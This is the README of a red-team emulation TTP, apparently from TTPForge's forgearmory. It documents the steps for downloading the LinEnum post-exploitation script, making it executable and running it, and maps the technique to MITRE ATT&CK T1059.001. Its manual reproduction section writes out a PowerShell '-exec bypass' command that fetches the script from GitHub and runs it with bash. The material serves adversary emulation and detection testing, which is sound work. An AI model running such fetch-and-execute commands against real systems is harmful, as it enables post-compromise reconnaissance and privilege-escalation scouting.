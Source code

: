 # Download Post Exploitation Tool with Powershell

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP downloads a post exploitation tool from a given link and executes it with Powershell.

## Arguments

- **escalate_privileges**: Whether to escalate privileges before running the TTP (default: false).
- **download_link**: The link to download the post exploitation tool from (default: <https://raw.githubusercontent.com/rebootuser/LinEnum/65475312171107e9373dd8b06c9757610f0653d8/LinEnum.sh>).
- **download_path**: The path to save the downloaded file to (default: "./LinEnum.sh").

## Pre-requisites

1. Powershell (`pwsh`) must be installed and on the default path.

## Examples

You can run the TTP using the following example (after updating the arguments):
```bash
ttpforge run forgearmory//exectution/post-exploitation/download-post-exploitation-tool-with-powershell.yaml \
  --arg escalate_privileges=true
```

## Steps

1. **ensure-root-user-if-required**: This step checks if the TTP needs to be run as root (`escalate_privileges`) and exits with an error message if not run as root.
2. **download-file**: This step downloads the post exploitation tool from the specified link (`download_link`) using Powershell and saves it to the specified path (`download_path`). If the download fails, it exits with an error message.
3. **make-file-executable**: This step makes the downloaded file executable.
4. **execute-file**: This step executes the downloaded file.

## Manual Reproduction Steps

```
download_link=https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
download_path=/tmp/LinEnum.sh

pwsh -exec bypass -c "(New-Object System.Net.WebClient).DownloadFile(\"${download_link}\",\"${download_path}\")"

# Execute it
bash "${download_path}"
```

## MITRE ATT&CK Mapping

- **Tactics**:
  - TA0002 Execution
- **Techniques**:
  - T1059 Command and Scripting Interpreter
- **Subtechniques**:
  - T1059.001 Command and Scripting Interpreter PowerShell
